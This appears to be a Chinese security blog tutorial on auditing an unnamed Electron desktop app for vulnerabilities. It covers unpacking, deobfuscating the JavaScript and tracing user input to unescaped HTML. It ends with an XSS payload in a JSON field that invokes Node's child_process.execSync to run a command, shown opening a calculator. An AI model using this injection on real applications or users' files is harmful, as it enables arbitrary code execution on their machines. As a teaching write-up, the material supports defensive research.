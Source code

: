 

# electron应用漏洞挖掘 - 先知社区

electron应用漏洞挖掘

- - -

### 前言

electron是一个流行的桌面应用开发框架,允许开发者使用web技术和nodejs结合来迅速开发桌面应用. 不过由于使用了js等, 也引入了xss漏洞.  
这次用一个简单的app实战挖掘,为了避免广告嫌疑,就不提供app名字了.

### 解包

electron真正的应用内容 位于 `resources`目录.  
如果打开后发现直接就是代码目录, 就可以跳过这一步了

[![](assets/1698904335-8d7776aa35ab92f4dfe1ff1f2054c996.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226035136-f56d3014-274f-1.png)  
一般会有两个asar包, `electron.asar`和应用一般无关, 直接看另一个就行了.

asar只是一个压缩包, 解包和重打包的工具可以直接通过`npm`下载.  
下载命令`sudo npm install -g asar` 解压命令 `asar extract app.asar <输出目录>`

### 审计代码

各个目录的目录结构不一定,但都有一个主文件 如 `main.js`. 在这里处理应用的启动

#### 自定义url协议

electron应用可以注册自己的url 协议 例如`custom://`, 使得可以通过浏览器直接打开应用. 这里对url协议的处理不当可能导致rce等 例子.

注册url的代码例子如下

```plain
const protocol = electron.protocol

// handles links `todo2://<something>`
const PROTOCOL_PREFIX = 'todo2'

function createWindow () {
  mainWindow = new BrowserWindow({width: 1000, height: 800})
  // handle url protocol
  protocol.registerHttpProtocol(PROTOCOL_PREFIX, (req, cb) => {
    const fullUrl = formFullTodoUrl(req.url)
    devToolsLog('full url to open ' + fullUrl)
    mainWindow.loadURL(fullUrl)
  })
}
```

由于未在这款应用发现注册自定义url,只能跳过这处的代码审计了

#### 代码反混淆

如果代码未使用反混淆, 可跳过这步.  
这次审计的app使用了`javascript obfuscator`, 并不算太难.  
[![](assets/1698904335-499bab96d78d89abbfc44ec9146bc8d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226040622-05e6fc2a-2752-1.png)

使用`https://lelinhtinh.github.io/de4js/` 就能解出来. 不过原有的参数名就回不来了, 在阅读代码时利用IDE的重命名变量能有效提高可读性  
[![](assets/1698904335-11d7756f17fe0b613fdeb8ee2bb06f0a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226041119-b708ee14-2752-1.png)

#### 寻找输入点

为了寻找漏洞, 我们需要先寻找输入点.这个时候参考应用自身功能 找到对应的`html`文件代码是最方便的.  
这个应用允许用户打开和编辑一些文件, 找到对应的`editpoc.html`. 发现这个文件高达`2000`多行.  
好在html文件没有做js混淆, 可以通过IDE的文件结构功能快速浏览, 减少了不少工作量  
[![](assets/1698904335-18ffa2149ead9564ee2720967617970c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226041658-80fbc71e-2753-1.png)

花费了几分钟后, 找到了从文件获取数据的函数.然后代码将数据传递给了下面三个函数  
[![](assets/1698904335-7529acfedd3aa0cfff9b14f4aebc14fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226042333-6c032504-2754-1.png)

第一个都是使用`$(#xxx).val()`函数 没太大问题  
[![](assets/1698904335-53aa1301342e87528798bb312d8c7fd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226042533-b3ab8fcc-2754-1.png)

第二个被混淆了, 并且反混淆没成功  
[![](assets/1698904335-1eab11e21bc4d1176a84e328e3de441e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226043150-94c40a20-2755-1.png)

只好自己写个脚本来反混淆了

```plain
# 从上面文件拷贝出来
data= ["xxx"]
# 上面文件的变量名
name = "_$_3fd4"
filename = "bmheditor.js"

with open(filename, "r") as f:
     content = f.read()

for i in range(len(data)):
    content = content.replace(name+f"[{i}]", f"`{data[i]}`")

with open("output.js", "w") as f:
    f.write(content)
```

最后效果[![](assets/1698904335-0231f017c0d4e1164e9bc7f2ab4645ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226044831-e8db441e-2757-1.png)  
可以发现并没有太明显的拼接html痕迹 也是调用`val`

第三个经过一些值传递后的代码  
[![](assets/1698904335-dc302d104be25c43180a5e937feaa412.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226045211-6c30f142-2758-1.png)

可以发现像这样的  
`var $input2 = $("<input type='text' value='"+value+"' name='value' class='form-control' style=' width:20%; display: inline-block;' placeholder='value'>");`  
直接拼接html, 如果没有过滤将会导致xss.

而`value`是从`var value = v.value;` 传递来的

在上面的代码也没有过滤

```plain
if (typeof(item.ExpParams) == "undefined") { 
            var ExpParams = [];
        }else{
            var ExpParams = item.ExpParams;
        }
```

查看被传递过来参数`pocJsonInfo`

```plain
var FileName = temp_params2;
            if(from == 'store') {
                var pocJsonInfo = getPocJsonByRubyFileName(FileName, 1);
            } else {
                var pocJsonInfo = getPocJsonByRubyFileName(FileName);
            }
            pocJsonInfo = JSON.parse(pocJsonInfo);
            old_poc_content = pocJsonInfo;

            pocJsonInfo.FileName = FileName;
```

只经过了json解析  
而反混淆的`getPocJsonByRubyFileName`函数也没什么过滤  
[![](assets/1698904335-5cf1538f9bf2c2858dc3210258b7bc09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226051233-44c27ace-275b-1.png)

### 利用

上面解析的json 实际上是这app可以编辑的文件里的一部分 [![](assets/1698904335-7212943537b857ce62e23f595c595eef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226051712-eb0aaaf0-275b-1.png)

只需要添加

```plain
"ExpParams": [
          {"name":"test'/><script>alert(1)</script>","type":"input","value":"test"}
      ],
```

这样的即可.

要利用electron的xss 由于electron允许使用nodejs, 所以只需要引入nodejs自带的命令执行模块`child_process`即可  
例子  
`require('child_process').execSync('xxxxx')`

这边环境是Linux 如果要弹个计算器  
实际exp

```plain
"ExpParams": [
          {"name":"test'/></td></tr><img src=x onerror=\"require('child_process').execSync('gnome-calculator');\">","type":"input","value":"test"}
      ],
```

弹计算器时间  
[![](assets/1698904335-89faf90ef6471efb57480174def87f02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226052222-a3a2fafe-275c-1.png)
